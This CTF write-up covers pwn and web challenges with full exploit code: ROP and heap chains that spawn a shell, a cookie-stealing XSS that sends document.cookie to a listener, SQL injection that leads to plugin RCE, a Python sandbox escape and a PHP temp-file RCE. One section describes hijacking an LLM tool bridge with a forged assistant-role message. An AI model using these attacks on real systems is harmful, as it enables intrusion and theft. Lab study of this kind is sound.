KMACTF 2026 Writeups
Pwn, web, and forensics challenge solutions
Contents
- Pwn: Cyberchef, BabyWarmup, s3idc3rt
- Web: ChatGPT Made Me Do It, thousandsoflightyears, KMA Labs Developer Portal, NO AI NO LIFE, DeepSeek Made Me Do It, DeepSeek Made Me Do It Revenge
- Forensics: CCTV
Pwn
Cyberchef
Program behavior
The program reads up to 1,023 characters from the flag file into the global buffer ::s1. If the flag is available, it prints the banner and supported encodings, then enters the encoding loop.
Each command has three space-separated fields:
1<src> <dst> <data>
srcis the current encoding, limited to 20 characters.dstis the requested output encoding, limited to 20 characters.datais the value to convert, limited to 256 characters.
For example, plain hex hello returns 68656c6c6f, while hex plain 414141 returns AAA.
The interesting branch is the note reader:
1if (!strcmp(s2, "plain") &&
2 !strcmp(a2, "plain") &&
3 !strncmp(s1, "note:", 5uLL)) {
4 v9 = s1 + 5;
5}
Therefore, plain plain note:test enters the note-reading path. The program removes the note: prefix, then eventually constructs the path as follows:
1snprintf(byte_5300, 0x400, "%s/%s", off_52F8, v9);
The base directory is ./data/notes. With v9 = "../../flag", the resulting path is:
1./data/notes/../../flag
Because the Docker working directory is /app, this resolves to /app/flag.
The obstacle is note_guard. When it is zero, the program rejects /, \, :, and ', preventing traversal. When note_guard != 0, execution jumps directly to path construction. The goal is therefore to overwrite note_guard with a non-zero value.
Cache corruption
The program first requires two gates:
- Send
plain plain warmuptwice. - Send
a85 plain <a85("unlockme!")>.
After those gates, an a85 plain command that decodes to anything other than unlockme! sets fixed_stage2_family = 1. In that state, the cache hash is not computed from the decoded plaintext:
1sha256_hex(hash, "a85-stage2-family", 17);
Consequently, different decoded values such as kvv000000, kvv000001, and kvv000002 are forced into the same cache record.
The cache has seven output slots, but the last slot can write out of bounds. In .data, the records begin at 0x50c0 and each record occupies 0x38 bytes:
1records[0] = 0x50c0
2records[1] = 0x50f8
3records[2] = 0x5130
4...
5records[9] = 0x52b8
6note_guard = 0x52f0
This makes the corruption exact:
1records[9].outputs[6] = 0x52f0 = note_guard

Exploit
The final command sequence is:
1sl(b"plain plain warmup")
2wait()
3sl(b"plain plain warmup")
4wait()
5
6# Unlock stage 2.
7sl(b"a85 plain " + a85(b"unlockme!"))
8wait()
9
10# Advance the cache index to the final record.
11sl(b"plain plain 00")
12wait()
13sl(b"plain plain 01")
14wait()
15sl(b"plain plain 02")
16wait()
17sl(b"plain plain 03")
18wait()
19sl(b"plain plain 04")
20wait()
21
22# Every value is assigned to the same fixed stage-2 cache family.
23sl(b"a85 plain " + a85(b"kvv000000"))
24wait()
25sl(b"a85 plain " + a85(b"kvv000001"))
26wait()
27sl(b"a85 plain " + a85(b"kvv000002"))
28wait()
29sl(b"a85 plain " + a85(b"kvv000003"))
30wait()
31sl(b"a85 plain " + a85(b"kvv000004"))
32wait()
33sl(b"a85 plain " + a85(b"kvv000005"))
34wait()
35
36# note_guard is now non-zero, so traversal is no longer checked.
37sl(b"plain plain note:../../flag")
38wait(show=True)
The final cache insertion overwrites note_guard, and the traversal command reads the flag.

BabyWarmup
MessagePack parser
MessagePack is a binary serialization format comparable to JSON, but generally smaller and faster. The program reads up to 0x1000 bytes, calls the MessagePack unpacker, and only afterward checks whether the packet is larger than 0x80 bytes. A packet that exceeds the limit has therefore already been parsed before the program prints too large and returns to the loop.
The dispatcher supports two commands:
cmd == setstores a key-value pair in a global table.cmd == getscans the current map for avalfield, copies its value into a stack buffer, and prints it.
A normal packet is:
1msgpack.packb({"cmd": "get", "val": "AAAA"}, use_bin_type=True)
The relevant unpacked structures are:
1typedef struct {
2 void *zone;
3 mp_object data;
4} mp_unpacked;
5
6struct mp_object {
7 uint32_t type;
8 uint32_t _pad;
9 mp_via via;
10};
11
12typedef union {
13 mp_raw raw;
14 mp_map map;
15} mp_via;
16
17typedef struct {
18 uint64_t size;
19 const char *ptr;
20} mp_raw;
21
22typedef struct {
23 uint64_t size;
24 mp_kv *ptr;
25} mp_map;
Two bugs in handle_get
The map iteration uses an inclusive upper bound:
1for (uint32_t i = 0; i <= count; i++)
For a map with three entries, the function inspects pairs[3], which is a fourth, out-of-bounds pair. The candidate key must be a three-byte string equal to val, and the corresponding value must be a string or binary blob.
The second bug is an unchecked copy into out[0x80]. The value length is attacker-controlled, so any accepted val longer than 0x80 bytes overflows the stack.
Sending a direct "val": b"A" * 0x300 does not work because the serialized packet is too large. The layout confusion is triggered with an array inside the root map:
1{
2 "cmd": "get",
3 "x": ["val", b"A" * 0x300],
4}
The root key x is ordinary, but its array value contains two consecutive MessagePack objects. Through the out-of-bounds map access, those objects are reinterpreted as the extra pair:
1"val": b"A" * 0x300
This reaches the unchecked memcpy and overflows out.

ROP chain
The overflow layout is:
1out[0x80] = "A" * 0x80
2pairs = fake pairs address
3junk = 4 bytes
4i = value that exits the loop
5saved rbp = fake RBP
6saved rip onward = ROP chain
Because the address of /bin/sh is not initially available, the chain first writes both /bin/sh and its argv array to PATH_BUF, a known writable address, then invokes execve:
1binsh = PATH_BUF
2argv = PATH_BUF + 0x10
3
4data = b"/bin/sh\x00"
5data = data.ljust(0x10, b"\x00")
6data += p64(binsh)
7data += p64(0)
8
9rop = b""
10rop += rop_syscall(0, 0, PATH_BUF, len(data))
11rop += rop_syscall(59, binsh, argv, 0)
The overwritten frame is built as follows:
1payload = b""
2payload += b"A" * 0x80
3payload += flat(
4 fake_pairs_address,
5 b"AAAA",
6 p32(loop_exit_index),
7 fake_rbp(),
8)
9payload += rop
10payload += b"A" * 8
After the trigger packet, the exploit sends the staged /bin/sh data required by the first read syscall. The second syscall returns a shell.

s3idc3rt
Wrapper and allocator configuration
The wrapper initializes name[0x100] and value[0x1000], accepts up to 0xf8 bytes for the name and 0x200 bytes for the value, and exits if the name contains LD or MALLOC. It then executes:
1setenv(name, value, 1);
I set the following environment variable:
1GLIBC_TUNABLES=glibc.malloc.perturb=1:glibc.malloc.tcache_count=0
This disables tcache, ensuring that freed chunks follow the non-tcache allocator paths needed by the exploit.
The main objects are:
1typedef struct Item {
2 char description[0x100];
3 char *name;
4 float price;
5 int quantity;
6} Item;
7
8typedef struct Cart {
9 Item items[100];
10 int count;
11} Cart;
remove_item frees the selected name but neither decrements cart->count nor shifts the item array. This leaves stale entries available for leaks and writes.
The more important bug is in description editing. Descriptions are not guaranteed to be null-terminated, yet the program calculates the next read length with strlen(description):
1read(0, item->description, strlen(item->description));
strlen can continue beyond description[0x100] into the adjacent name pointer. The subsequent read can therefore overwrite that pointer.
Once item->name is attacker-controlled:
- A
%sprint ofitem->namebecomes an arbitrary read. editItemName, which callsread(0, item->name, 0xff), becomes an arbitrary write.
Heap and libc leaks
Creating three items with non-null-terminated descriptions and viewing the cart leaks adjacent name pointers, which reveals the heap and the cart base.
The arbitrary-write helpers are:
1def change_desc(idx, data):
2 menu(8)
3 p.sendlineafter(
4 b"Enter the number of the item to change description: ",
5 str(idx).encode(),
6 )
7 p.sendafter(b"Enter description: ", data)
8 return p.recvuntil(PROMPT)
9
10
11def set_name_ptr(idx, ptr):
12 return change_desc(idx, b"A" * 0x100 + p64(ptr)[:6])
13
14
15def rename_item(idx, data):
16 menu(7)
17 p.sendlineafter(
18 b"Enter the number of the item to rename: ",
19 str(idx).encode(),
20 )
21 p.recvuntil(b"Enter new name for '")
22 p.send(data)
23 p.recvuntil(PROMPT)
24
25
26def arb_write(ptr, data, idx=2):
27 set_name_ptr(idx, ptr)
28 rename_item(idx, data)
I placed a fake unsorted-bin chunk inside the large cart allocation:
1fake_size = 0x421
2fake_user = cart + 0x3000
3fake_hdr = fake_user - 0x10
4next_hdr = fake_hdr + 0x420
5next2_hdr = next_hdr + 0x20
6
7arb_write(fake_hdr, p64(0) + p64(fake_size))
8arb_write(next_hdr, p64(0x420) + p64(0x21))
9arb_write(next2_hdr, p64(0x20) + p64(0x21))
10arb_write(fake_user, b"\x00")
11arb_write(cart + 256, p64(fake_user))
12remove_item(1)
The fake chunk has size 0x421, followed by two small valid-looking chunks with (prev_size, size) values (0x420, 0x21) and (0x20, 0x21). Overwriting the first item’s name pointer at cart + 256 makes remove_item(1) free fake_user. The resulting unsorted-bin metadata provides a libc leak.
The corresponding arbitrary read changes the same name pointer and lets the rename prompt print data at the target address:
1def arb_read_qword(ptr, idx=2):
2 menu(8)
3 slan(b"Enter the number of the item to change description: ", idx)
4 sa(b"Enter description: ", b"A" * 0x100 + p64(ptr)[:6])
5 p.recvuntil(PROMPT)
6
7 menu(7)
8 slan(b"Enter the number of the item to rename: ", idx)
9 p.recvuntil(b"Enter new name for '")
10 data = p.recvuntil(b"': ", drop=True)
11 p.sendline(b"done")
12 p.recvuntil(PROMPT)
13 return u64(data[:8].ljust(8, b"\x00"))
With libc known, environ yields a stack pointer, and a nearby saved return address yields the PIE base:
1environ = libc.address + 0x20AD58
2leak_stack = arb_read_qword(environ)
3
4stack_containing_pie = leak_stack - 0x110
5pie_leak = arb_read_qword(stack_containing_pie)
6exe.address = pie_leak - 0x1403
GOT overwrite
The last stage writes a command such as cat flag.txt into the cart, then replaces strlen@GOT with system:
1arb_write(cart, cmd.ljust(0x100, b"\x00"))
2
3target = exe.got["strlen"]
4system_addr = libc.sym["system"]
5arb_write(target, p64(system_addr))
Triggering description editing changes this call:
1strlen(item->description)
into:
1system(item->description)
The remote exploit returned:
1KCSC{7736f8c98a26ea87b2c48f845b52224a}

Web
ChatGPT Made Me Do It
Vulnerability chain
This challenge combines an admin bot, XSS, CSRF logic, and session handling. A normal user can register, log in, change a password, and report a URL. The bot logs in with the real admin account and visits the submitted URL. The flag endpoint only responds when req.session.username === "admin" and the request method is POST.
The CSRF middleware compares a header directly with a cookie:
1const csrfToken = req.cookies.csrf_token;
2if (req.headers["x-csrf-token"] !== csrfToken) {
3 return res.send(alertBack("request blocked"));
4}
The admin password, session secret, and base URL are randomized, so password brute force is not viable.
On login, the server creates a random csrf_token cookie with HttpOnly. JavaScript cannot read that cookie, but it can create another cookie with the same name. The password route uses router.all, and an omitted new password becomes an empty string. An authenticated GET request can therefore reset the current account’s password to empty.
The XSS sink is /immortal-gate/check?name=.... Its sanitizer removes only the first matching special sequence, so the following prefix bypasses it:
1<!----><script>...</script>
The exploit is a three-part chain:
- Report a URL containing XSS to the admin bot.
- Use a path-specific shadow cookie to satisfy the CSRF comparison.
- Make the bot reset the admin password to an empty string.
The JavaScript payload is:
1document.cookie = "csrf_token=x; path=/cultivation";
2fetch("/cultivation/password", {
3 credentials: "include",
4 headers: { "x-csrf-token": "x" },
5});
The real CSRF cookie has Path=/, while the attacker cookie has the more specific Path=/cultivation. For a request to /cultivation/password, both cookies match, but the browser sends the more specific cookie first:
1Cookie: csrf_token=x; connect.sid=<admin-session>; csrf_token=<real-admin-token>
The complete reported URL is:
1http://localhost:3000/immortal-gate/check?name=<!----><script>document.cookie='csrf_token=x; path=/cultivation';fetch('/cultivation/password',{credentials:'include',headers:{'x-csrf-token':'x'}})</script>

After the bot visits the URL, the admin password is empty. Logging in as admin with an empty password and sending POST /immortal-gate/treasure returns the flag.

The original instance was no longer fetchable after the solve, so these notes preserve the locally verified exploit chain.
thousandsoflightyears
Service topology
This challenge is a chain across four services:
mikasais the only application reachable through public nginx.webis an internal Snake game.botis an internal admin bot that visitswebwithFLAG1in a cookie.eren-appis an internal Oracle-backed API containingFLAG2.
The network relationships are:
1Internet -> nginx -> mikasa
2 |-> bot -> web
3 |-> eren-app

The full path is:
1Mikasa search SQLi
2+ Mikasa upload traversal
3-> MariaDB plugin RCE
4-> internal bot + WASM-overlap XSS -> FLAG1
5-> internal Eren ORDER BY SQLi -> FLAG2
Mikasa SQL injection and upload traversal
The search controller builds SQL by concatenation:
1String query = "SELECT * FROM user WHERE username = '" + username + "'";
The blacklist blocks terms such as union, drop, delete, exec, and file, but does not block insert, install, or soname. The endpoint also accepts stacked statements.
The upload form sends two attacker-controlled fields, filename and base64-encoded file contents. Before normalization, the WAF rejects .., /, \, %2e, %2f, and %5c. The filename normalizer then converts the string to ISO-8859-1 bytes and clears the high bit of every byte with & 0x7f:
10xAE & 0x7F = 0x2E = .
20xAF & 0x7F = 0x2F = /
The original input therefore contains neither a literal dot nor slash, but becomes a traversal path after validation. The server then evaluates:
1base.resolve(prefix + "_" + transformed).normalize()
A transformed value such as:
1/../../../../home/ctf/lib/plugins/poc.so
normalizes outside the upload directory and writes the shared object to:
1/home/ctf/lib/plugins/poc.so
MariaDB is configured with that directory as plugin_dir, and the application database user has INSERT and DELETE privileges on mysql.plugin:
1GRANT INSERT, DELETE ON mysql.plugin TO 'user'@'localhost';
2GRANT INSERT, DELETE ON mysql.plugin TO 'user'@'127.0.0.1';
The stacked SQL injection can now force MariaDB to load the uploaded library:
1INSTALL SONAME 'poc.so';
dlopen() runs the shared object’s constructor, producing code execution inside mikasa.
WASM overlap to XSS and FLAG1
The internal web service stores gameInfo at linear-memory address 0x5000. Go’s wasm_exec.js starts writing argv at 0x1000. The first argument, game.wasm\0, occupies ten bytes and is aligned to eight bytes, so the first byte of userComment begins at 0x1010.
The distance to the cached content is:
10x5000 - 0x1010 = 0x3ff0 = 16368 bytes
A comment with exactly 16,368 padding bytes overwrites the content later rendered through:
1postContent.innerHTML = post.post_content;

The comment is:
1COMMENT = "A" * 16368 + '<img src=x onerror="new Image().src=\'http://mikasa:18080/?c=\'+encodeURIComponent(document.cookie)">'
The bot can resolve mikasa on their shared network. Code running through the MariaDB plugin starts a listener on mikasa:18080, asks either http://bot:8000/visit or http://internalbot:8000/visit to process the comment, and receives document.cookie in the c query parameter.
The callback value is stored in Mikasa’s database under a known username, for example bot_flag_remote1, then read externally through the public /search endpoint. This transfers FLAG1 from the internal browser to the public service.
Eren ORDER BY oracle and FLAG2
eren-app takes the field query parameter and places it into ORDER BY without a column whitelist. In the local initialization data, FLAG_FACTION.FACTION_ID = 15 contains FLAG2.
The injected expression is:
1PIPE_ID"+(CASE WHEN <condition> THEN -2*PIPE_ID ELSE 0 END)+0*"PIPE_ID
With descending sorting:
- A false condition keeps the sort value as
PIPE_ID, makingpipeId = 5appear first. - A true condition changes it to
-PIPE_ID, makingpipeId = 1appear first.
This turns the result order into a Boolean oracle. The extractor asks whether the secret begins with each candidate prefix:
1def is_prefix(candidate):
2 escaped = like_escape(candidate)
3 condition = (
4 "(SELECT/**/SECRET/**/FROM/**/FLAG_FACTION/**/WHERE/**/FACTION_ID=15)"
5 "/**/LIKE/**/'" + escaped + "%'/**/ESCAPE/**/'!'"
6 )
7 field = (
8 'PIPE_ID"+(CASE/**/WHEN/**/'
9 + condition
10 + '/**/THEN/**/-2*PIPE_ID/**/ELSE/**/0/**/END)+0*"PIPE_ID'
11 )
12 query = urllib.parse.urlencode({"field": field, "limit": "10"})
13 url = "http://eren-app:3000/api/faction/scan?" + query
14
15 with urllib.request.urlopen(url, timeout=6) as response:
16 data = json.loads(response.read().decode("utf-8", "replace"))
17
18 leaks = data["factionLeaks"]["leaks"]
19 first = leaks[0].get("pipeId", leaks[0].get("PIPE_ID"))
20 return int(first) == 1
Starting from KMACTF{, the script tries characters from ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_} until it reaches }. As with FLAG1, it writes each recovered prefix into Mikasa’s database so the progress can be read through /search.

Finally, FLAG1 and FLAG2 are concatenated to obtain the complete challenge flag.
KMA Labs Developer Portal
Inline JWK injection
The blind challenge exposes a login page with the credentials guest / guest123. After login, the server sets a JWT cookie containing role: "user". Access to /admin requires an admin role.
The RS256 verifier trusts a public key supplied directly in the token’s jwk header. I generated a new 2,048-bit RSA key pair, embedded my public key, changed the payload role to admin, and signed the token with my private key.
The original kid, kma-idp-rsa-01, must be removed or replaced. If it remains, the server selects its legitimate key instead of the attacker-controlled JWK.
Example header:
1{
2 "alg": "RS256",
3 "typ": "JWT",
4 "jwk": {
5 "kty": "RSA",
6 "n": "<modulus from the generated public key>",
7 "e": "AQAB",
8 "alg": "RS256",
9 "use": "sig"
10 }
11}
Example payload:
1{
2 "sub": "guest",
3 "role": "admin",
4 "iss": "kma-ctf-auth",
5 "iat": 1779806120,
6 "exp": 1779813320
7}
After signing in Burp’s JWT Editor and replacing the cookie, /api/me confirms "role":"admin" and the sandbox becomes accessible.
Python sandbox escape
The sandbox blocks:
- Single and double quotes, preventing ordinary string literals.
- Digits
0-9, preventing ordinary numeric literals. - Keywords such as
import,eval,exec,open, andcompile. - Normal builtins by setting
__builtins__ = {}.
However, True and False remain available, and Python introspection is not blocked:
1True + True -> 2
2().__class__ -> <class 'tuple'>
The escape walks the object graph:
1() -> __class__ -> __base__ -> __subclasses__()
2 -> warnings.catch_warnings
3 -> __init__.__globals__
4 -> real builtins
Integers are generated from True, False, addition, and bit shifts. Strings are generated by retrieving chr from the real builtins and concatenating calls to it.
The essential generators are:
1def int_expr(number):
2 if number == 0:
3 return "False"
4
5 parts = []
6 bit = 0
7 while number:
8 if number & 1:
9 if bit == 0:
10 parts.append("True")
11 elif bit == 1:
12 parts.append("(True<<True)")
13 else:
14 parts.append("(True<<(" + "+".join(["True"] * bit) + "))")
15 number >>= 1
16 bit += 1
17 return "(" + "+".join(parts) + ")"
18
19
20def str_expr(text, chr_var="c"):
21 return "+".join(f"{chr_var}({int_expr(ord(char))})" for char in text)
22
23
24def idx(number):
25 return f"[{int_expr(number)}]"
26
27
28def builtins_values_expr():
29 globals_values = (
30 "().__class__.__base__.__subclasses__()"
31 f"{idx(204)}.__init__.__globals__.values()"
32 )
33 builtins_dict = f"[*{globals_values}]{idx(7)}"
34 return f"[*{builtins_dict}.values()]"
The subclass and builtins indexes were measured on the remote Python 3.11 runtime. From the recovered builtins, index 6 is used for __import__, index 14 for chr, and index 150 for open.
Reading /app/app.py reveals that startup writes the flag to a randomized path and then removes it from the environment:
1_fc = os.environ.get("FLAG", "KMACTF{fake_flag}")
2_fd = os.environ.get("FLAG_DIR", "/tmp")
3_fn = f"secret-{uuid.uuid4().hex}.txt"
4_fp = os.path.join(_fd, _fn)
5with open(_fp, "w") as _fh:
6 _fh.write(_fc + "\n")
7os.environ.pop("FLAG", None)
8del _fc
The final generated expression imports os and runs:
1os.listdir("/tmp")
2os.popen("cat /tmp/secret-*").read()
This reads the randomized /tmp/secret-<uuid>.txt file and returns the flag.
NO AI NO LIFE
Four-bug chain
The application is an OpenAI-style API bridge to Gemini with a Deno MCP server. The flag is stored in a text file with a randomized name similar to /app/flag_<32 random characters>.txt.
The solve combines four behaviors:
-
Client-controlled assistant role. The bridge accepts the supplied role without restricting clients to
user:1const role = typeof obj.role === "string" ? obj.role : "user";During Gemini conversion,
assistantbecomesmodel:1contents.push({ 2 role: msg.role === "assistant" ? "model" : "user", 3 parts: [{ text }], 4});An attacker can therefore pre-seed a model message that claims it has already decided to call a tool.
-
Prompt-only restrictions. The system prompt forbids flags, wildcards, and non-image files, but
checkGuardrailsonly rejects patterns such as/etc/,/proc/,/tmp/,/root/,.env,secret, andcredential. It does not rejectflagor?. -
The OCR tool reads text. Despite its name,
ocr_image_filereturns a decoded file directly whenisTextFile(filePath)succeeds:1if (isTextFile(filePath)) { 2 const text = new TextDecoder().decode(bytes); 3 return { content: [{ type: "text", text }] }; 4} -
Question-mark globbing.
resolveGlobPathtreats?as a single-character wildcard and scans the directory for a match.
The randomized name is matched with:
1/app/????_????????????????????????????????.???
The exploit uses two messages. The first is attacker-supplied with role assistant and pre-seeds the tool-call plan and wildcard path. The second has role user and instructs the model to execute the plan without asking another question. Gemini calls ocr_image_file, the MCP server resolves the wildcard, recognizes the target as text, and returns its contents.
The flag is:
1KMACTF{MCP_lf1_v1a_t0_r34d_4rb1tr4ry_f1L3s}
The original verification script supported Cloudflare cookies from Firefox:
1python3 solve.py https://kma-bank-this-is-not-ctf.mitm.vn \
2 --transport cloudscraper \
3 --use-firefox-co
At the time these notes were written, the instance was inaccessible because of a Cloudflare issue, so the automated verification could not be rerun.
DeepSeek Made Me Do It
Temporary-file race
The PHP application exposes:
/forge.phpfor image uploads./vault.phpfor listing the vault, which is actually/tmp./mark.phpfor calculating SHA-1 hashes, which is a distraction because it never returns file contents.
The flag is stored at /var/www/html/flag.txt. Four weaknesses form the exploit chain:
forge.phpvalidates only$_FILES['image']['tmp_name']. Extra multipart file parts are ignored by the application-level validation.- PHP still creates
/tmp/phpXXXXXXtemporary files for every multipart file part, including the extra parts. They exist until the upload request finishes. /vault.phplists/tmp, exposing the temporary filenames during that window.- Apache maps
/images/to/tmp/, while a rewrite rule assigns the PHP handler to URLs ending in.php.
The handler confusion path is:
1/images/../tmp/phpXXXXXX/.php
Apache resolves it to the temporary file /tmp/phpXXXXXX, while the .php suffix causes the file contents to execute as PHP.
